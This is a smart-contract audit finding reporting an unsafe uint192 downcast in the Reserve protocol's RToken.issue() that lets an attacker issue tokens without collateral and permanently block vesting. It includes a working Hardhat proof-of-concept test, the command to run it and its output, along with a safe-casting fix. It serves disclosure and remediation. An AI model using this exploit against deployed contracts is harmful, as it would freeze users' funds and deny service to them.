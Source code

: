 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- satisfactory
- selected for report
- sponsor confirmed
- M-10

# [Unsafe downcasting in `issue(...)` can be exploited to cause permanent DoS](https://github.com/code-423n4/2023-01-reserve-findings/issues/320) 

# Lines of code

https://github.com/reserve-protocol/protocol/blob/df7ecadc2bae74244ace5e8b39e94bc992903158/contracts/p1/RToken.sol#L230-L243


# Vulnerability details

## Unsafe downcasting in `issue(...)` can be exploited to cause permanent DoS

#### Important note!
I first found this bug in `issue(...)` at first, but unsafe downcasting appears in many other areas of the codebase, and seem to also be exploitable but no PoC is provided due to time constraints. Either way, using some form of safe casting library to **replace all occurences** of unsafe downcasting will prevent all the issues. I also do not list the individual instances of unsafe downcasting as all occurences should be replaced with safe cast.

### Details
The `amtRToken` is a user supplied parameter in the `issue(uint256 amtRToken)` function
```sol
uint192 amtBaskets = uint192(
	totalSupply() > 0 ? mulDiv256(basketsNeeded, amtRToken, totalSupply()) : amtRToken
);
```
The calculated amount is unsafely downcasted into `uint192`.

This means that if the resulting calculation is a multiple of $2^{192}$, `amtBaskets = 0`

The code proceeds to the following line, where `erc20s` and `deposits` arrays will be empty since we are asking for a quote for 0. (see `quote(...)` in `BasketHandler.sol` where amounts are multiplied by zero)
```sol
(address[] memory erc20s, uint256[] memory deposits) = basketHandler.quote(
            amtBaskets,
            CEIL
        );
```
This means an attacker can call `issue(...)` with a very high `amtRToken` amount that is a multiple of $2^{192}$, without depositing any amount of collateral.

The DoS issues arises because `whenFinished(uint256 amtRToken)` is dependent on `amtRToken`. With such a high value, `allVestAt` will be set so far in the future that it causes a permanent DoS. i.e. Issuances will never vest.
```sol
uint192 vestingEnd = whenFinished(amtRToken); // D18{block number}
```

### Proof of Concept
This PoC demonstrates that an attacker can call `issue(...)` without collateral tokens to modify `allVestAt` variable to an extreme value, such that all further issuances cannot be vested for all users.

Do note that the PoC is done with `totalSupply() == 0` case, so we supply `amtRToken` as a multiple of $2^{192}$. Even if there is an existing `totalSupply()`, we just need to calculate a value for `amtRToken >= 2^192` such that $\frac{\text{basketsNeeded} \times \text{amtRToken}}{totalSupply()} = 0$. This attack does not require `totalSupply()` be zero.

```sol
uint192 amtBaskets = uint192(
	totalSupply() > 0 ? mulDiv256(basketsNeeded, amtRToken, totalSupply()) : amtRToken
);
```

The `amount`, `baskets` and `quantities` values are also messed up, but it would not matter anyways...

Under 'Issuance and Slow Minting' tests in `RToken.test.ts`:
```sol
it('Audit: DoS by downcasting', async function () {
      const issueAmount: BigNumber = BigNumber.from(2n ** 192n)

      // Set basket
      await basketHandler.connect(owner).setPrimeBasket([token0.address], [fp('1')])
      await basketHandler.connect(owner).refreshBasket()

      // Attacker issues 2 ** 192, or a multiple of 2 ** 192 RTokens
      // This will cause allVestAt to be veryyyyy high, permanent DoS
      const tx = await rToken.connect(addr1)['issue(uint256)'](issueAmount)
      const receipt = await tx.wait()
      console.log(receipt.events[0].args)
  
      await token0.connect(addr2).approve(rToken.address, initialBal)
      const tx2 = await rToken.connect(addr2)['issue(uint256)'](initialBal)
      const receipt2 = await tx2.wait()
      console.log(receipt2.events[0].args)

      // one eternity later...
      await advanceTime('123456789123456789')
      // and still not ready
      await expect(rToken.connect(addr2).vest(addr2.address, 1))
        .to.be.revertedWith("issuance not ready")

    })
```
Run with:
```bash
yarn test:p1 --grep "Audit: DoS"
```
Expect to see (only important parts shown):
```bash
[
  ...
  recipient: '0x70997970C51812dc3A010C7d01b50e0d17dc79C8',
  index: BigNumber { value: "0" },
  amount: BigNumber { value: "6277101735386680763835789423207666416102355444464034512896" },
  baskets: BigNumber { value: "0" },
  erc20s: [ '0x998abeb3E57409262aE5b751f60747921B33613E' ],
  quantities: [ BigNumber { value: "0" } ],
  blockAvailableAt: BigNumber { value: "627710173538668076383578942320766744610235544446403452" }
]
[
  ...
  recipient: '0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC',
  index: BigNumber { value: "0" },
  amount: BigNumber { value: "6300000000000000000000000000000000000000000000000000000000" },
  baskets: BigNumber { value: "22898264613319236164210576792333583897644555535965487104" },
  erc20s: [ '0x998abeb3E57409262aE5b751f60747921B33613E' ],
  quantities: [
    BigNumber { value: "22898264613319236164210576792333583897644555535965487104" }
  ],
  blockAvailableAt: BigNumber { value: "1257710173538668076383578942320766744610235544446403452" }
]

  RTokenP1 contract
    Issuance and Slow Minting
      ✔ Audit: DoS by downcasting
```

### Impact
Permanent DoS would be High risk considering RToken is an asset-backed **currency**.
_A currency that is unable to issue new currency does not work as a currency_

Also, I believe existing collateral cannot be redeemed due to the extreme values also used in `redeem(...)` function. No PoC written due to time constriant for this case... but above should be enough impact.

Many other downcasting issues for this project. But using a safe casting library would prevent all the issues... not going to write multiple reports for same underlying issue.

### Recommendations
Use some safe casting library. OpenZeppelin's library does not have safe casting for `uint192` type. May have to find another or write your own.
